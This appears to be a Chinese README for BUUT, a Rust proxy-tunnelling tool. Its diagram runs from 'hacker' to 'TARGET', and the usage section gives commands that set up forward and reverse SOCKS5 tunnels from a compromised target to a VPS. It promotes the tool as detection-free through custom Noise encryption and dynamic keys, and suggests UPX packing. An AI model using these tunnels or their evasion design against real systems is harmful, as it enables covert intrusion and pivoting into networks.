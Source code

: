 # BUUT 

## 介绍 
一款rust开发的正反向代理隧道工具。 

## 工作原理
```rust
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
|hacker| <--> | Socks5 VPS  | <--> |Yamux frame| <--> |Noise stream | <--> |TCP stream| <--> |TARGET|
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
```

## 参数介绍 
```rust
    opts.optopt("l", "server_listen",   "", "服务监听地址,默认0.0.0.0:443");
    opts.optopt("s", "remote_addr",     "", "远程地址,默认127.0.0.1:443");
    opts.optopt("p", "proxy_port",      "", "代理监听,端口默认10086");
    opts.optopt("m", "transport",       "", "协议类型,默认TCP");//|UDP|WS|ICMP|DNS
    opts.optopt("k", "key",             "", "加密密钥");
    opts.optopt("n", "channel",         "", "通道数量,默认2");
    opts.optopt("c", "config",          "", "配置文件路径");
    opts.optopt("",  "sockspass",       "", "代理密码,默认不验证,用户名buut"); 
    opts.optflagopt("F", "forward",     "", "是否正向模式");
    opts.optflagopt("S", "server",      "", "是否服务模式");
```

## 特点：
	速度快，使用多路复用技术 将带宽利用到极致。rust开发，速度、稳定性和安全性都有保证。
	体积小，编译只有不到1.2M, 使用upx后还能更小,相比golang写的程序动辄10多M还是很有优势的。
	无特征，程序使用Noise定制加密，可使用动态密钥保证无任何特征。
	单文件，客户端和服务端使用同样的单文件、多模式自由组合切换。
	多协议，目前release 0.3只支持tcp，后续把udp和icmp协议支持加进去。
	


## 使用方法 

### 正向隧道：
	target执行：./buut -F -l 443
	vps执行 ：./buut -F -S -s target:443 -p 10086
  	hacker连接socks5  vps:10086


### 反向隧道
	vps执行：./buut -S -l 443 -p 10086
	target执行：./buut -s vps:443
   	hacker连接socks5  vps:10086 

 
 ## todo
 	增加udp icmp协议支持  
	增加自动设置端口复用模式参数
	
